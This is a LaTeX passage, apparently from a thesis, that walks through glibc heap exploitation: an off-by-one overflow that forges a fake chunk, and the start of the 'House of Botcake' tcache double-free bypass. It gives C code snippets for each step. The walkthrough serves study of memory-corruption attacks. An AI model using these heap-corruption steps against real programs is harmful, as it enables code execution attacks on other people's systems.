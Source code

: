 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\begin{document}
Now we need another chunk inside the heap:

\begin{lstlisting}[language=c,frame=tlrb]
b = (uint8_t*) malloc(0xf8);
int real_b_size = malloc_usable_size(b);
uint64_t* b_size_ptr = (uint64_t*)(b - 8);
\end{lstlisting}

Now we use ‘a’ inorder to overflow and manipulate the size of ‘b’

\begin{lstlisting}[language=c,frame=tlrb]
a[real_a_size] = 0;
\end{lstlisting}

 Now its time to set prev\_size of our fake chunk to an inorder to merge it with our fake chunk

\begin{lstlisting}[language=c,frame=tlrb]
size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
*(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
fake_chunk[1] = fake_size;
\end{lstlisting}

The final step is free ‘b’ , after free ‘b’ it be merged with out fake chunk , so next malloc return our fake chunk

\begin{lstlisting}[language=c,frame=tlrb]
free(b);
d = malloc(0x200);
\end{lstlisting}


\subsection{ The House of Botcake}
The goal is to bypass \libc{} security checks in newer versions to perform a \tch{} double-free attack.
Consider the following code, like always, first, we assume our target is at the stack 

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t stack_var[4];
\end{lstlisting}
Now, We allocate 7 chunks to fill up the \tch{} in the future. As you remember we did this trick before too.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *x[7];
for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
	x[i] = malloc(0x100);
}
\end{lstlisting}

The next step is to define a chunk to merge ‘prev’, and define the victim ‘a’, also, we define a small chunk to prevent merge chunks with the top chunk after free. 
\end{document}

